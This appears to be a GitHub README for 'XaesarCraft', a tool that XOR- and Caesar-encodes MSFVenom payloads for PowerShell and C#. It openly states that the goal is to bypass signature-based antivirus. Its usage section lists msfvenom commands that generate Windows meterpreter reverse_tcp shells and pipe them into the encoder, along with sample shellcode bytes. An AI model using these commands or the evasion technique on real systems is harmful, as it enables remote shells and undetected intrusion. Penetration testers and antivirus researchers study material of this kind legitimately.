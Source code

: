 # XaesarCraft

XaesarCraft is a powerful security tool that integrates XOR encryption and Caesar cipher capabilities, offering users a unique opportunity to manipulate and obscure payloads for PowerShell (PS1) and C# scripts generated through MSFVenom.

## Disclaimer

This tool is for educational purposes only. Unauthorized use of this tool against systems you do not own or have permission to test is illegal and unethical. The creator and contributors of XaesarCraft are not responsible for any misuse or damage caused by this program.

## Key Features:

1. **XOR Encryption**: XaesarCraft enables users to employ XOR encryption to obfuscate payloads. This is particularly useful for bypassing signature-based antivirus systems.

2. **Caesar Cipher**: Add an additional layer of encryption by applying the Caesar cipher to your payloads.

3. **Integration with MSFVenom**: Generate payloads using MSFVenom directly from within XaesarCraft, and then apply XOR and Caesar ciphers for encryption.

4. **Customization of Keys**: Specify your own keys for XOR encryption and select a shift for the Caesar cipher, creating unique and complex combinations.

## Example of usage:

```
More usefull ;)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f csharp | python3 XaesarCraft.py --mode rot # default ROT13
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f ps1 | python3 XaesarCraft.py --m rot -n 0x13
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f ps1 | python3 XaesarCraft.py # default XOR 0xfa
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f csharp | python3 XaesarCraft.py -n 0x13
Why not:
python3 XaesarCraft.py --input "[Byte[]] $buf = 0xf8,0xa5,0x6c,0x11,0xfc,0x05"
python3 XaesarCraft.py --input "[Byte[]] $buf = 0xf8,0xa5,0x6c,0x11,0xfc,0x05" -m rot
```

TBD:

 **Export**: Export encrypted payloads in various formats, including Base64, HEX, and bin.


## Target Audience

Designed for security researchers, penetration testers, and cybersecurity specialists, XaesarCraft offers comprehensive solutions for effectively creating and obscuring payloads, ensuring high levels of anonymity and protection.
